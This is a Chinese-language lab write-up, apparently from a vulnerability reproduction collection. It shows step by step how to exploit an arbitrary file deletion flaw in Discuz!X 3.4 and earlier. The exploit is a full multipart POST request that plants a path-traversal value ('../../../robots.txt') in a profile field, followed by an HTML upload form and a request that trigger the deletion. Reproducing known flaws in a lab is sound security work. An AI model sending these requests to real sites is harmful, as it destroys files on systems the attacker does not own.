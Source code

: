 # Discuz!X ≤3.4 任意文件删除漏洞

## 漏洞描述

漏洞详情：https://lorexxar.cn/2017/09/30/dz-delete/

## 漏洞影响

```
Discuz!X ≤3.4
```

## 环境搭建

Vulhub执行下列命令部署 Discuz!X 安装环境

```
docker-compose up -d
```

启动后，访问`http://your-ip/install/`来安装discuz，只用修改数据库地址为`db`，其他保持默认即可。

![image-20220222131339964](./images/202202221313350.png)

## 漏洞复现

访问`http://your-ip/robots.txt`可见robots.txt是存在的：

![image-20220222131412780](./images/202202221314844.png)

注册用户后，在个人设置页面找到自己的formhash：

![image-20220222131618637](./images/202202221316746.png)

带上自己的Cookie、formhash发送如下数据包：

```
POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
Host: 192.168.174.128
Content-Length: 370
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.174.128
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryW8uA1wbCsmuiargU
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.174.128/home.php?mod=spacecp&ac=profile&op=base
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: AuthSession=dGhyZWVraTo2MjE0NEM0Mzrhe4V-bNxBqV-1RKA7mJS_YQrC9A; ot6_visitedfid=2; ot6_sid=9yWYy0; et56_2132_saltkey=qN7vqIdT; et56_2132_lastvisit=1645503280; et56_2132_sid=Ze005m; et56_2132_seccode=1.526c82122231460dd9; et56_2132_ulastactivity=6467KkrgcKDQNmUlDxKLd592a6DUvLlRSPU4g07eDld2bKtFo3JU; et56_2132_auth=45cdTg%2F0tTayn1c5i6fOd%2F96K8vGKx7SVg9MgaAoLalS102hICOtVzWjuDHbYtyyH8Rqe54O1WS9d%2Fa0s%2FIV; et56_2132_nofavfid=1; et56_2132_onlineusernum=1; et56_2132_noticeTitle=1; et56_2132_lastact=1645507206%09home.php%09misc
Connection: close

------WebKitFormBoundaryW8uA1wbCsmuiargU
Content-Disposition: form-data; name="formhash"

d32e951d
------WebKitFormBoundaryW8uA1wbCsmuiargU
Content-Disposition: form-data; name="birthprovince"

../../../robots.txt
------WebKitFormBoundaryW8uA1wbCsmuiargU
Content-Disposition: form-data; name="profilesubmit"

true
------WebKitFormBoundaryW8uA1wbCsmuiargU--
```

![image-20220222132220237](./images/202202221322360.png)

提交成功之后，用户资料修改页面上的出生地就会显示成下图所示的状态：

![image-20220222132303344](./images/202202221323368.png)

说明我们的脏数据已经进入数据库了。

然后，新建一个`upload.html`，代码如下，将其中的`[your-ip]`改成discuz的域名，`[form-hash]`改成你的formhash：

```
<body>
    <form action="http://[your-ip]/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=[form-hash]" method="post" enctype="multipart/form-data">
        <input type="file" name="birthprovince" />
        <input type="submit" value="upload" />
    </form>
</body>
```

用浏览器打开该页面，上传一个正常图片。如果遇到下图这样的情况，需要修改数据包。

![image-20220222143620386](./images/202202221436463.png)

Burpsuite抓包，将Refer和Cookie替换为正常上传数据包的值。

```
POST /home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=d32e951d HTTP/1.1
Host: 192.168.174.222
Content-Length: 3685
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.159
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryKSoP7vDw487SX9LO
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: [替换为http://192.168.174.128/home.php?mod=spacecp]
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: [替换为正常上传的C]
Connection: close
```

此时脏数据应该已被提取出，漏洞已经利用结束。

再次访问`http://your-ip/robots.txt`，发现文件成功被删除。

![image-20220222145130066](./images/202202221451120.png)
